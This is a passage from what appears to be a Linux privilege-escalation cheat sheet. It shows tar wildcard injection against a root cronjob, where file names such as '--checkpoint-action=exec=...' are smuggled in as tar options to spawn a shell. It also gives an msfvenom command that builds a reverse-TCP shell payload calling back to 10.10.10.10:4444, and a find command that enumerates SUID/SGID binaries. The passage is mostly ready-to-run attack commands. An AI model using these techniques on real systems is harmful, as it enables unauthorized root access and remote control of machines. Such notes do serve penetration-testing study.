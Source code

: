 - Assume we have the following cronjob:
```bash
cd /home/user
tar czf /tmp/backup.tar.gz *
```
*Note*: This command means that all the files in `/home/user` will be compressed to `/tmp/backup.tar.gz`

- The tar command can also take a useful option(`-checkpoints`) as shown below:
```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- This means we can exploit the first command to spawn a shell by creating the following 2 files in `/home/user`
```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec={command-to-execute}
```

- To create a reverse shell using `msfvenom` we use the following command:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

- To find all the SUID/SGID executables on a Debian machine we use the following command:
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


### Shared Object Injection

